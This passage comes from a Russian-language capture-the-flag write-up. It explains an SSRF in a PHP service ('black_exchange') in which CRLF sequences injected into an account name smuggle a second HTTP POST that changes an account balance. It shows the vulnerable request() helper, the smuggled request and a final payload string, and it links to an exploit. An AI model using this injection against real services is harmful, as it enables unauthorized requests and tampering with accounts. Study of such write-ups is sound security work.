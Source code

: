 Да, у `php -S` второй заголовок с тем же названием будет проигнорирован.

Этот способ может не сработать, если команда соперников поставила WAF-ку, которая блокирует двойные заголовки. 
Впрочем, WAF-ка должна была заругаться ещё когда увидела такое значение поля account, но это другая история.
Предположим, двойной заголовок не работает.

#### Способ №2 — query string

Обратите внимание на реализацию функции `request()`:

```
    // helpers.php:3
    function request($key=null) {
        if (is_null($key))
            return app("request");

        return app("request")->get($key, null) ?? app("request")->header("X-" . camel_case($key));
    }
```

Как видно, post-данные и query string имеют больший приоритет, чем данные из заголовков. POST-данные мы внедрить не можем,
так как после этого останется лишний хвост, но мы можем внедрить query string параметры. Мы должны внедрить ещё и account,
так как в название аккаунта мы, собственно, внедрялись, и оно осталось в старом, сломанном запросе, который будет проигнорирован.

```
    X-Account: мы внедрились, ага {
    
    
    POST /api/account/change?change=9999&account=alagunto HTTP/1.1
    Host: {team_host}
    X-Kek: вынедрились }
    X-Change: 1 ...
```

Тот же фрагмент, только без пометок о том, где мы внедрились/вынедрились:

```
    X-Account: 
    
    
    POST /api/account/change?change=9999&account=alagunto HTTP/1.1
    Host: {team_host}
    X-Change: 1 ...
```

Итого, наш payload:

`account_name = f"\r\n\r\nPOST /api/account/change?account={account_name}&change=9999 HTTP/1.1\r\nHost: {root_url}"`
   
Смотри [эксплоит](https://github.com/jnovikov/ctfcup2018/blob/master/exploits/black_exchange/ssrf_contest_winning_exploit.py)
